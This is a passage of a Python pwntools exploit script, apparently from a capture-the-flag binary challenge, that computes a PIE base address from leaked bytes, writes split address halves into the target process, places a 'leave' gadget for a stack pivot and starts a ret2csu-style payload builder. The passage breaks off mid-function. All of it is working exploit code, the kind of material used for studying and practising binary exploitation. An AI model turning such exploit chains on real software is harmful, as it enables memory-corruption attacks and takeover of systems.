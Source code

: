 ```
base = str(hex(base2))+str(hex(base1))[2:]
base = int(base,16) - (0x55e9d0e36b40-0x000055e9d0e36000) 
log.success('base = '+hex(base))

start = base + 0x8a0
start1 = str(hex(start))[2:6]
start2 = str(hex(start))[6:]
start1 = int(start1,16)
start2 = int(start2,16)
p.recvuntil(': ')
p.sendline(str(start2))
p.recvuntil(': ')
p.sendline(str(start1))

p.recvuntil(': ')
p.sendline('+')
p.recvuntil(': ')
p.sendline('+')

p.recvuntil('your name?\n')
p.send('\x00')
#======================================
for i in range(26):
	p.recvuntil(': ')
	p.sendline(str(0))

p.recvuntil(': ')
p.sendline('+')	
p.recvuntil(': ')
p.sendline('+')

target = base + 0x201420
target1 = str(hex(target))[2:6]
target2 = str(hex(target))[6:]
target1 = int(target1,16)
target2 = int(target2,16)
p.recvuntil(': ')
p.sendline(str(target2))
p.recvuntil(': ')
p.sendline(str(target1))

leave = base + 0xb31
leave1 = str(hex(leave))[2:6]
leave2 = str(hex(leave))[6:]
leave1 = int(leave1,16)
leave2 = int(leave2,16)
p.recvuntil(': ')
p.sendline(str(leave2))
p.recvuntil(': ')
p.sendline(str(leave1))

p.recvuntil(': ')
p.sendline('+')	
p.recvuntil(': ')
p.sendline('+')

part1 = base + 0xb96
part2 = base + 0xb80
def call_fun(fun_addr,arg1,arg2,arg3):
    payload = p64(part1)
    payload+= p64(0) 
    payload+= p64(0)
    payload+= p64(1)
```